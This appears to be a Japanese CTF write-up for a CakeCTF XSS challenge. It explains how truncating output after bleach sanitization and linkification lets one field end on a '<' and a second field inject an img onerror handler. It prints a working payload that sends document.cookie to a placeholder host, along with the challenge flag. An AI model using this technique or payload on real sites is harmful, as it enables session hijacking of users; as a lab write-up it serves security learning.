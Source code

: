 ```python
bio1 = bleach.linkify(bleach.clean(bio['bio1'], strip=True))[:10000]
bio2 = bleach.linkify(bleach.clean(bio['bio2'], strip=True))[:10000]
```

1点目は2重エスケープ問題とかがあるのかなと思いましたが、ゼロデイの脆弱性がない限りは特に問題はなさそうな気がします。  
とすると、2点目と3点目を使うのかなという考えになります。  
bio1がbleachでサニタイズされた後の10000文字目に`<`が来るようにできれば、10001文字目以降は切り捨てられるので、bio2の入力を`img src=a onerror=...`のようにして結合させることでXSSができそうです。

後は、bio1とbio2の1001文字以下という制限をどうにかできれば良さそうです。  
具体的には、1文字あたり変換後に10文字以上になっている必要があります。

試しに`a.jp`（4文字）を入れると、bleach.linkifyによって`<a href="http://a.jp" rel="nofollow">a.jp</a>`（45文字）に変換されるのでかなり使えそうです。

（～競技中はここまでで時間切れ～）

残りは1文字で変換後に5文字になる文字があれば良いのですが、`<`だと`&lt;`で4文字。  
いろいろ試したところ、`&`が`&amp;`で5文字になることがわかりました。

後は組み立てて、クローラにアクセスさせるだけです。  
（といいつつ、組み立てるのに結構手間どりました。文字数がぎりぎりで閉じタグ`</a>`の`<`を使う発想がすぐに出てこなかったためです。）

- bio1

```text
<<a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp&a.jp
```

- bio2

```text
img src=a onerror="location='https://<your>'+'.<site>/'+document.cookie"
```

送信先URLを区切ることで、bleach.linkifyによってリンクにされるのを防いでいます。  
bio2の方はタグを閉じなくてもブラウザがよしなにしてくれるので、これで問題無かったです。  
ちなみに、bleach.linkifyでは、ハードコードされているTLDの場合のみリンクになるようです。  
<https://github.com/mozilla/bleach/blob/main/bleach/linkifier.py#L13>

- FLAG

```text
CakeCTF{d0n'7_m0d1fy_4ft3r_s4n1tiz3}
```
